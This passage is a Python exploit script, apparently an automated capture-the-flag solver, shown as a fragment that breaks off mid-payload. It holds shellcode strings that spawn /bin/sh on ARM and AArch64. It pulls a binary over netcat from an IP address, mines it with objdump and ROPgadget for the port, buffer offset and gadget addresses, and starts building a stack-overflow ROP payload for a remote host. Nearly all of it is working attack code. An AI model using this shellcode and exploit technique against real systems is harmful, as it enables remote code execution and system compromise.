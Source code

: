 ```python
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

if __name__ == "__main__":

    while True:
        myexec("nc 52.20.10.244 8888 > asdf") # download binary
        
        resp = myexec("objdump -d ./asdf | grep \"htons\" -B 1") # get port number
        resp = resp.split("--\n")[2]
        port = resp[resp.index("0x"):resp.index(","):]
        port = int(port, 16)
        
        resp = myexec("objdump -d ./asdf | grep \"strlen\" -B 2") # get buffer offset
        resp = resp.split("lea    -")[1]
        offset = int(resp[:resp.index("(%rbp"):], 16)
        
        resp = myexec("objdump -d ./asdf | grep \"read\" -B 4") # read size
        resp = resp.split("mov")[1]
        resp = resp[resp.index("0x"):resp.index(","):]
        read = int(resp, 16)

        print "==================="
        log.success("port: "+str(port))
        log.success("offset: "+hex(offset))
        log.success("read: "+hex(read))
        
        if read < 0x80 or read < offset or offset-8 < 0x78: # exploitable or not
            continue

        r = remote(HOST, port)
        elf = ELF("./asdf")
        
        # use ROPgadget to find some useful address
        pop_rdi = int(myexec("ROPgadget --binary ./asdf | grep \"pop rdi\"").split(" ")[0], 16)
        pop_rsi_r15 = int(myexec("ROPgadget --binary ./asdf | grep \"pop rsi \"").split(" ")[0], 16)
        leave = int(myexec("ROPgadget --binary ./asdf | grep \"leave\"").split(" ")[0], 16)
        pop_rbp = int(myexec("ROPgadget --binary ./asdf | grep \": pop rbp ; ret$\"").split(" ")[0], 16)

        log.success("pop_rdi: "+hex(pop_rdi))
        log.success("pop_rsi_r15: "+hex(pop_rsi_r15))
        log.success("leave: "+hex(leave))
        log.success("pop_rbp: "+hex(pop_rbp))
        buf1 = 0x00602000 - 0x200
        buf2 = 0x00602000 - 0x300

        payload = "A"*(offset-8)
        payload += p32(6) # socket fd
```